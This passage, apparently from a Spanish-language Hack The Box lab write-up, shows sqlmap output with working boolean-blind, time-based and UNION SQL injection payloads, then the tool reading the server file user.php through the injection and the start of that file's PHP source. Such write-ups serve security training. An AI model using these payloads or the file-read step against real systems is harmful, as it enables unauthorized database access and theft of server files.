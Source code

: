 ```
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 8431=8431 AND 'Hxdn'='Hxdn

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8159 FROM (SELECT(SLEEP(5)))iyof) AND 'NlBa'='NlBa

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-5795' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71717a7a71,0x7a737744506276506541596c774b5456694d504342586759766d445a797157736e444b6f5577676c,0x716a7a7a71)-- -
---
[12:13:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:13:27] [INFO] fingerprinting the back-end DBMS operating system
[12:13:27] [INFO] the back-end DBMS operating system is Linux
[12:13:27] [INFO] fetching file: '/var/www/html/user.php'
do you want confirmation that the remote file '/var/www/html/user.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[12:13:27] [INFO] the local file '/root/.local/share/sqlmap/output/vote.cobblestone.htb/files/_var_www_html_user.php' and the remote file '/var/www/html/user.php' have the same size (3267 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/vote.cobblestone.htb/files/_var_www_html_user.php (same file)

[12:13:27] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 12:13:27 /2025-10-30/
```

Vemos que ha funcionado, vamos a ver que contiene:

> user.php

```php
<?php

include("db/connection.php");
session_start(); // Make sure sessions are started for role checking and messages

if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    http_response_code(403); // Optional: send 403 Forbidden
    die('Access denied.');
}

$_SESSION['message'] = '';
$_SESSION['message_type'] = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $id = $_POST['id'] ?? null;
    $username = $_POST['name'] ?? 'empty';
    $firstname = $_POST['first'] ?? 'empty';
    $lastname = $_POST['last'] ?? 'empty';
    $email = $_POST['email'] ?? 'empty';
    $role = $_POST['role'] ?? 'user';
    $ip = $_SERVER['REMOTE_ADDR'];

    if ($id === "1" || $id === "2") {
        $_SESSION['message'] = "Error: You are not allowed to modify this user.";
        $_SESSION['message_type'] = 'error';
        header("Location: skins.php");
```